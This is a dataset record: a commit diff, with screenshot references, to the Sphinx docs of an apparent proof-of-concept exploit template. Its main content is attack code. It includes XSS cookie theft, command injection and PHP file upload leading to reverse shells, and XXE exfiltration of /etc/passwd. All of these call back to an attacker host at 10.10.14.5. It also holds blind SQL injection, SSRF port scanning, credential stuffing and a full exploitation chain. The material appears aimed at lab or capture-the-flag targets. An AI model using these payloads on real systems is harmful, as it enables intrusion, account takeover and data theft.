

Before and after one commit to kwkeefer/cookiecutter-poc, a Sphinx documentation site: the page built from docs/workflows.rst, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 3.1.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
improve docs

```diff
--- a/docs/workflows.rst
+++ b/docs/workflows.rst
@@ -6,27 +6,38 @@ End-to-end POC workflows for common exploitation scenarios.
 XSS Cookie Stealer
 ------------------
 
-Complete workflow for stealing cookies via XSS:
+Complete workflow for stealing cookies via XSS.
+
+**Setup:**
+
+Start the HTTP callback server first:
+
+.. code-block:: bash
+
+   uv run your_project --server
+
+**Exploit Code:**
 
 .. code-block:: python
 
    import requests
-   from utils.output import out
-   from utils.xss import cookie_stealer
-   from utils.server_hooks import get_cookie
-   from utils.cookie import parse_cookie_string
+   from your_project.utils.output import out
+   from your_project.utils.xss import cookie_stealer
+   from your_project.utils.server_hooks import get_cookie
+   from your_project.utils.cookie import parse_cookie_string
 
-   def exploit_xss(target, lhost, lport=8000):
+   def run(args):
        """Steal admin cookie via stored XSS"""
 
-       # 1. Start server (in separate terminal)
-       #    uv run your_project --server
+       target = args.target
+       lhost = args.lhost
+       lport = args.lport
 
-       # 2. Generate XSS payload
+       # Generate XSS payload
        payload = cookie_stealer(f"http://{lhost}:{lport}")
        out.info(f"Payload: {payload}")
 
-       # 3. Send payload to vulnerable endpoint
+       # Send payload to vulnerable endpoint
        out.status("Injecting XSS payload...")
        r = requests.post(
            f"{target}/comment",
@@ -37,7 +48,7 @@ Complete workflow for stealing cookies via XSS:
        if r.status_code == 302:
            out.success("Payload injected successfully")
 
-       # 4. Wait for admin to visit and trigger callback
+       # Wait for admin to visit and trigger callback
        out.status("Waiting for admin to view comment...")
        cookie_str = get_cookie(timeout=60)
 
@@ -47,10 +58,10 @@ Complete workflow for stealing cookies via XSS:
 
        out.success(f"Cookie captured: {cookie_str}")
 
-       # 5. Parse and use stolen cookie
+       # Parse and use stolen cookie
        cookies = parse_cookie_string(cookie_str)
 
-       # 6. Access admin panel
+       # Access admin panel
        out.status("Accessing admin panel with stolen cookie...")
        r = requests.get(f"{target}/admin", cookies=cookies)
 
@@ -61,23 +72,32 @@ Complete workflow for stealing cookies via XSS:
            out.error("Cookie didn't grant admin access")
            return False
 
-   if __name__ == "__main__":
-       exploit_xss("http://target.local", "10.10.14.5")
+**Run:**
+
+.. code-block:: bash
+
+   uv run your_project --target http://target.local --lhost 10.10.14.5
 
 RCE to Interactive Shell
 -------------------------
 
-From command injection to full PTY shell:
+From command injection to full PTY shell.
+
+**Exploit Code:**
 
 .. code-block:: python
 
    import requests
-   from utils.output import out
-   from utils.reverse_shells import python_oneliner, bash_shell
-   from utils.shell_catcher import auto_shell
+   from your_project.utils.output import out
+   from your_project.utils.reverse_shells import python_oneliner, bash_shell
+   from your_project.utils.shell_catcher import auto_shell
 
-   def exploit_rce(target, lhost, lport=4444):
+   def run(args):
        """Exploit RCE and get interactive shell"""
+
+       target = args.target
+       lhost = args.lhost
+       lport = args.lport
 
        # Generate shell payload
        cmd = python_oneliner(lhost, lport)
@@ -105,24 +125,33 @@ From command injection to full PTY shell:
            else:
                out.error("No shell received")
 
-   if __name__ == "__main__":
-       exploit_rce("http://target.local", "10.10.14.5")
+**Run:**
+
+.. code-block:: bash
+
+   uv run your_project --target http://target.local --lhost 10.10.14.5 --lport 4444
 
 File Upload to RCE
 ------------------
 
-Upload malicious file and get shell:
+Upload malicious file and get shell.
+
+**Exploit Code:**
 
 .. code-block:: python
 
    import requests
-   from utils.output import out
-   from utils.file_upload import FileUploader
-   from utils.reverse_shells import php_shell
-   from utils.shell_catcher import quick_catch
+   from your_project.utils.output import out
+   from your_project.utils.file_upload import FileUploader
+   from your_project.utils.reverse_shells import php_shell
+   from your_project.utils.shell_catcher import quick_catch
 
-   def exploit_upload(target, lhost, lport=4444):
+   def run(args):
        """Upload PHP shell and execute it"""
+
+       target = args.target
+       lhost = args.lhost
+       lport = args.lport
 
        # Generate PHP reverse shell
        shell_path = php_shell(lhost, lport)
@@ -155,32 +184,46 @@ Upload malicious file and get shell:
 
        quick_catch(lport, trigger_func=trigger)
 
-   if __name__ == "__main__":
-       exploit_upload("http://target.local", "10.10.14.5")
+**Run:**
+
+.. code-block:: bash
+
+   uv run your_project --target http://target.local --lhost 10.10.14.5 --lport 4444
 
 XXE Data Exfiltration
 ---------------------
 
-Read files via XXE:
+Read files via XXE.
+
+**Setup:**
+
+Start the HTTP callback server first:
+
+.. code-block:: bash
+
+   uv run your_project --server
+
+**Exploit Code:**
 
 .. code-block:: python
 
    import requests
-   from utils.output import out
-   from utils.xxe import quick_test
-   from utils.server_hooks import get_exfil
+   from your_project.utils.output import out
+   from your_project.utils.xxe import quick_test
+   from your_project.utils.server_hooks import get_exfil
 
-   def exploit_xxe(target, lhost, lport=8000):
+   def run(args):
        """Exfiltrate /etc/passwd via XXE"""
 
-       # 1. Start server (in separate terminal)
-       #    uv run your_project --server
+       target = args.target
+       lhost = args.lhost
+       lport = args.lport
 
-       # 2. Generate XXE payload (also creates DTD file)
+       # Generate XXE payload (also creates DTD file)
        payload = quick_test(f"http://{lhost}:{lport}", "/etc/passwd")
        out.info("XXE payload generated")
 
-       # 3. Send XXE payload
+       # Send XXE payload
        out.status("Sending XXE payload...")
        r = requests.post(
            f"{target}/api/parse",
@@ -188,7 +231,7 @@ Read files via XXE:
            headers={"Content-Type": "application/xml"}
        )
 
-       # 4. Wait for exfil callback
+       # Wait for exfil callback
        out.status("Waiting for data exfiltration...")
        data = get_exfil(timeout=30)
 
@@ -202,23 +245,30 @@ Read files via XXE:
            out.error("No data received")
            return None
 
-   if __name__ == "__main__":
-       exploit_xxe("http://target.local", "10.10.14.5")
+**Run:**
+
+.. code-block:: bash
+
+   uv run your_project --target http://target.local --lhost 10.10.14.5
 
 Blind SQL Injection
 -------------------
 
-Extract data from blind SQLi:
+Extract data from blind SQLi.
+
+**Exploit Code:**
 
 .. code-block:: python
 
    import requests
    import string
-   from utils.output import out
-   from utils.timing import time_request
+   from your_project.utils.output import out
+   from your_project.utils.timing import time_request
 
-   def exploit_sqli_blind(target):
+   def run(args):
        """Extract database name via boolean-based blind SQLi"""
+
+       target = args.target
 
        def check_condition(condition):
            """Returns True if condition is true"""
@@ -251,8 +301,10 @@ Extract data from blind SQLi:
        out.success(f"Database name: {db_name}")
        return db_name
 
-   def exploit_sqli_time(target):
+   def run_time_based(args):
        """Extract data via time-based blind SQLi"""
+
+       target = args.target
 
        def check_char(pos, char):
            """Returns True if char at position matches"""
@@ -284,29 +336,36 @@ Extract data from blind SQLi:
        out.success(f"Database name: {db_name}")
        return db_name
 
-   if __name__ == "__main__":
-       # Boolean-based
-       exploit_sqli_blind("http://target.local")
+**Run:**
 
-       # Time-based
-       exploit_sqli_time("http://target.local")
+.. code-block:: bash
+
+   # Boolean-based
+   uv run your_project --target http://target.local
+
+   # Time-based (if boolean-based doesn't work)
+   uv run your_project --target http://target.local --time-based
 
 SSRF to Internal Access
 ------------------------
 
-Exploit SSRF to access internal services:
+Exploit SSRF to access internal services.
+
+**Exploit Code:**
 
 .. code-block:: python
 
    import requests
-   from utils.output import out
-   from utils.batch_request import batch_request_sync, generate_param_payloads
+   from your_project.utils.output import out
+   from your_project.utils.batch_request import batch_request_sync, generate_param_payloads
    import httpx
 
-   def exploit_ssrf(target):
+   def run(args):
        """Use SSRF to scan internal network"""
 
-       # 1. Test SSRF vulnerability
+       target = args.target
+
+       # Test SSRF vulnerability
        out.info("Testing SSRF...")
        test_url = "http://127.0.0.1:80"
        r = requests.get(f"{target}/fetch", params={"url": test_url})
@@ -317,7 +376,7 @@ Exploit SSRF to access internal services:
            out.error("SSRF test failed")
            return
 
-       # 2. Scan internal ports
+       # Scan internal ports
        out.status("Scanning internal ports...")
        client = httpx.Client()
 
@@ -341,7 +400,7 @@ Exploit SSRF to access internal services:
                port = result.payload['params']['url'].split(':')[-1]
                out.success(f"Port {port} is open")
 
-       # 3. Try to access internal admin panel
+       # Try to access internal admin panel
        out.status("\\nTrying internal admin panel...")
        r = requests.get(
            f"{target}/fetch",
@@ -352,22 +411,29 @@ Exploit SSRF to access internal services:
            out.success("Accessed internal admin panel!")
            out.raw(r.text[:500])
 
-   if __name__ == "__main__":
-       exploit_ssrf("http://target.local")
+**Run:**
+
+.. code-block:: bash
+
+   uv run your_project --target http://target.local
 
 Credential Stuffing
 -------------------
 
-Test multiple credentials efficiently:
+Test multiple credentials efficiently.
+
+**Exploit Code:**
 
 .. code-block:: python
 
    import httpx
-   from utils.output import out
-   from utils.batch_request import batch_request_sync, generate_json_payloads
+   from your_project.utils.output import out
+   from your_project.utils.batch_request import batch_request_sync, generate_json_payloads
 
-   def credential_stuffing(target):
+   def run(args):
        """Test common credential pairs"""
+
+       target = args.target
 
        # Common credentials
        creds = [
@@ -402,28 +468,45 @@ Test multiple credentials efficiently:
                creds = result.payload['json']
                out.success(f"Valid creds: {creds['username']}:{creds['password']}")
 
-   if __name__ == "__main__":
-       credential_stuffing("http://target.local")
+**Run:**
+
+.. code-block:: bash
+
+   uv run your_project --target http://target.local
 
 Complete Exploitation Workflow
 -------------------------------
 
-Full exploitation chain:
+Full exploitation chain.
+
+**Setup:**
+
+Start the HTTP callback server first:
+
+.. code-block:: bash
+
+   uv run your_project --server
+
+**Exploit Code:**
 
 .. code-block:: python
 
    import requests
-   from utils.output import out
-   from utils.html_parser import HTMLParser
-   from utils.xss import cookie_stealer
-   from utils.server_hooks import get_cookie
-   from utils.cookie import parse_cookie_string
-   from utils.file_upload import FileUploader
-   from utils.reverse_shells import php_shell
-   from utils.shell_catcher import auto_shell
+   from your_project.utils.output import out
+   from your_project.utils.html_parser import HTMLParser
+   from your_project.utils.xss import cookie_stealer
+   from your_project.utils.server_hooks import get_cookie
+   from your_project.utils.cookie import parse_cookie_string
+   from your_project.utils.file_upload import FileUploader
+   from your_project.utils.reverse_shells import php_shell
+   from your_project.utils.shell_catcher import auto_shell
 
-   def full_exploit(target, lhost):
+   def run(args):
        """Complete exploitation chain"""
+
+       target = args.target
+       lhost = args.lhost
+       lport = args.lport
 
        # Stage 1: Reconnaissance
        out.info("Stage 1: Reconnaissance")
@@ -447,7 +530,7 @@ Full exploitation chain:
 
        # Stage 2: XSS to steal admin cookie
        out.info("\\nStage 2: XSS Cookie Theft")
-       payload = cookie_stealer(f"http://{lhost}:8000")
+       payload = cookie_stealer(f"http://{lhost}:{lport}")
 
        requests.post(f"{target}/comment", data={"msg": payload})
        out.status("Waiting for admin...")
@@ -491,5 +574,8 @@ Full exploitation chain:
                catcher.stabilize()
                catcher.interact()
 
-   if __name__ == "__main__":
-       full_exploit("http://target.local", "10.10.14.5")
+**Run:**
+
+.. code-block:: bash
+
+   uv run your_project --target http://target.local --lhost 10.10.14.5
```
Also changed, not shown: README.md (+0 -1 lines), docs/examples.rst (+19 -19 lines), docs/quickstart.rst (+8 -14 lines).
